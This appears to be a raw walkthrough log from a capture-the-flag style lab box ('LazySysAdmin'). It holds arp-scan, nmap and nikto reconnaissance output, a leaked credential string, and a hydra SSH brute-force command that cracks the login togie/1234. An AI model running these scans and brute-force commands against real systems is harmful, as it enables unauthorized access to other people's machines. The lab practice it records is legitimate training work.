          Currently scanning: 192.168.48.0/16   |   Screen View: Unique Hosts           
                                                                                       
         3 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 126               
         _____________________________________________________________________________
           IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
         -----------------------------------------------------------------------------
         192.168.42.129  9a:d1:53:35:56:b5      2      84  Unknown vendor              
         192.168.42.55   08:00:27:c1:be:89      1      42  PCS Systemtechnik GmbH 
         
         
         
        $sudo nmap -sS -sV -p- -A 192.168.42.55
        
        
        Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-02 18:16 IST
        Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
        Service scan Timing: About 83.33% done; ETC: 18:16 (0:00:02 remaining)
        Nmap scan report for 192.168.42.55
        Host is up (0.00045s latency).
        Not shown: 65529 closed tcp ports (reset)
        PORT     STATE SERVICE     VERSION
        22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
        | ssh-hostkey: 
        |   1024 b538660fa1eecd41693b82cfada1f713 (DSA)
        |   2048 585a6369d0dadd51ccc16e00fd7e61d0 (RSA)
        |   256 6130f3551a0ddec86a595bc99cb49204 (ECDSA)
        |_  256 1f65c0dd15e6e421f2c19ba3b655a045 (ED25519)
        80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
        |_http-server-header: Apache/2.4.7 (Ubuntu)
        |_http-title: Backnode
        | http-robots.txt: 4 disallowed entries 
        |_/old/ /test/ /TR2/ /Backnode_files/
        |_http-generator: Silex v2.2.7
        139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
        445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
        3306/tcp open  mysql       MySQL (unauthorized)
        6667/tcp open  irc         InspIRCd
        | irc-info: 
        |   server: Admin.local
        |   users: 1
        |   servers: 1
        |   chans: 0
        |   lusers: 1
        |   lservers: 0
        |   source ident: nmap
        |   source host: 192.168.42.230
        |_  error: Closing link: (nmap@192.168.42.230) [Client exited]
        MAC Address: 08:00:27:C1:BE:89 (Oracle VirtualBox virtual NIC)
        Device type: general purpose
        Running: Linux 3.X|4.X
        OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
        OS details: Linux 3.2 - 4.9
        Network Distance: 1 hop
        Service Info: Hosts: LAZYSYSADMIN, Admin.local; OS: Linux; CPE: cpe:/o:linux:linux_kernel

        Host script results:
        | smb-os-discovery: 
        |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
        |   Computer name: lazysysadmin
        |   NetBIOS computer name: LAZYSYSADMIN\x00
        |   Domain name: \x00
        |   FQDN: lazysysadmin
        |_  System time: 2023-06-02T22:46:38+10:00
        |_clock-skew: mean: -3h20m00s, deviation: 5h46m24s, median: 0s
        | smb2-security-mode: 
        |   311: 
        |_    Message signing enabled but not required
        |_nbstat: NetBIOS name: LAZYSYSADMIN, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
        | smb-security-mode: 
        |   account_used: guest
        |   authentication_level: user
        |   challenge_response: supported
        |_  message_signing: disabled (dangerous, but default)
        | smb2-time: 
        |   date: 2023-06-02T12:46:38
        |_  start_date: N/A

        TRACEROUTE
        HOP RTT     ADDRESS
        1   0.45 ms 192.168.42.55

        OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
        Nmap done: 1 IP address (1 host up) scanned in 23.67 seconds
        
        
        
        
        
        
        http://192.168.42.55/robots.txt
        
        
        User-agent: *
        Disallow: /old/
        Disallow: /test/
        Disallow: /TR2/
        Disallow: /Backnode_files/
        
        
        
        
        
        
        
        nikto 
        
        
        
        
        $nikto -h http://192.168.42.55                                                             
        
        - Nikto v2.5.0
        ---------------------------------------------------------------------------
        + Target IP:          192.168.42.55
        + Target Hostname:    192.168.42.55
        + Target Port:        80
        + Start Time:         2023-06-02 18:28:05 (GMT5.5)
        ---------------------------------------------------------------------------
        + Server: Apache/2.4.7 (Ubuntu)
        + /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
        + /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
        + No CGI Directories found (use '-C all' to force check all possible dirs)
        + /test/: Directory indexing found.
        + /robots.txt: Entry '/test/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
        + /old/: Directory indexing found.
        + /robots.txt: Entry '/old/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
        + /Backnode_files/: Directory indexing found.
        + /robots.txt: Entry '/Backnode_files/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
        + /robots.txt: contains 4 entries which should be manually viewed. See: https://developer.mozilla.org/en-US/docs/Glossary/Robots.txt
        + Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
        + /: Server may leak inodes via ETags, header found with file /, inode: 8ce8, size: 5560ea23d23c0, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
        + OPTIONS: Allowed HTTP Methods: OPTIONS, GET, HEAD, POST .
        + /apache/: Directory indexing found.
        + /apache/: This might be interesting.
        + /old/: This might be interesting.
        + /phpmyadmin/changelog.php: Retrieved x-powered-by header: PHP/5.5.9-1ubuntu4.22.
        + /phpmyadmin/changelog.php: Uncommon header 'x-ob_mode' found, with contents: 0.
        + /test/: This might be interesting.
        + /info.php: Output from the phpinfo() function was found.
        + /info.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information. See: CWE-552
        + /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
        + /info.php?file=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
        + /wordpress/wp-content/plugins/akismet/readme.txt: The WordPress Akismet plugin 'Tested up to' version usually matches the WordPress version.
        + /wordpress/wp-links-opml.php: This WordPress script reveals the installed version.
        + /wordpress/: Drupal Link header found with value: <http://192.168.42.55/wordpress/index.php?rest_route=/>; rel="https://api.w.org/". See: https://www.drupal.org/
        + /wordpress/: A Wordpress installation was found.
        + /phpmyadmin/: phpMyAdmin directory found.
        + /wordpress/wp-login.php?action=register: Cookie wordpress_test_cookie created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
        + /wordpress/wp-login.php?action=register: Wordpress registration enabled.
        + /wordpress/wp-content/uploads/: Directory indexing found.
        + /wordpress/wp-content/uploads/: Wordpress uploads directory is browsable. This may reveal sensitive information.
        + /wordpress/wp-login.php: Wordpress login found.
        + 8258 requests: 0 error(s) and 32 item(s) reported on remote host
        + End Time:           2023-06-02 18:28:11 (GMT5.5) (6 seconds)
        ---------------------------------------------------------------------------
        + 1 host(s) tested

TogieMYSQL12345^^




        # hydra -l togie -P /usr/share/wordlists/rockyou.txt ssh://192.168.42.55/ -t 4
        Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

        Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-02 19:02:38
        [WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
        [DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
        [DATA] attacking ssh://192.168.42.55:22/
        [22][ssh] host: 192.168.42.55   login: togie   password: 1234
